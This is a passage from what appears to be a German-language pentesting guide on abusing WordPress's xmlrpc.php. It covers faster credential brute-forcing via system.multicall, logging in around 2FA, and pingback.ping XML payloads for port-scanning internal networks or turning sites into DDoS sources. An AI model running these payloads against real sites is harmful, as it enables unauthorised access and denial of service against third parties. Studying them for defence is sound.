 ```markup
</member>
<member>
<name>bits</name>
<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
</member>
</struct>
</value>
</param>
</params>
</methodCall>
```
Auch gibt es einen **schnelleren Weg**, um Anmeldeinformationen mit **`system.multicall`** zu brute-forcen, da Sie mehrere Anmeldeinformationen in derselben Anfrage ausprobieren können:

<figure><img src="../../.gitbook/assets/image (628).png" alt=""><figcaption></figcaption></figure>

**Umgehung von 2FA**

Diese Methode ist für Programme und nicht für Menschen gedacht und ist alt, daher unterstützt sie kein 2FA. Wenn Sie also gültige Anmeldeinformationen haben, aber der Haupteingang durch 2FA geschützt ist, **könnten Sie in der Lage sein, xmlrpc.php auszunutzen, um sich mit diesen Anmeldeinformationen anzumelden und 2FA zu umgehen**. Beachten Sie, dass Sie nicht alle Aktionen ausführen können, die Sie über die Konsole durchführen können, aber Sie könnten dennoch in der Lage sein, zu RCE zu gelangen, wie Ippsec es in [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s) erklärt.

**DDoS oder Port-Scanning**

Wenn Sie die Methode _**pingback.ping**_ in der Liste finden, können Sie Wordpress anweisen, eine beliebige Anfrage an einen beliebigen Host/Port zu senden.\
Dies kann verwendet werden, um **tausende** von Wordpress **Seiten** zu **bitten**, einen **Standort** zu **zugreifen** (so wird ein **DDoS** an diesem Standort verursacht) oder Sie können es verwenden, um **Wordpress** dazu zu bringen, ein internes **Netzwerk** zu **scannen** (Sie können jeden Port angeben).
```markup
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
![](../../.gitbook/assets/1\_JaUYIZF8ZjDGGB7ocsZC-g.png)

Wenn Sie **faultCode** mit einem Wert **größer** als **0** (17) erhalten, bedeutet das, dass der Port offen ist.

Schauen Sie sich die Verwendung von **`system.multicall`** im vorherigen Abschnitt an, um zu lernen, wie man diese Methode missbraucht, um DDoS zu verursachen.

**DDoS**
```markup
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>http://target/</string></value></param>
<param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
</params>
</methodCall>
```
![](<../../.gitbook/assets/image (110).png>)
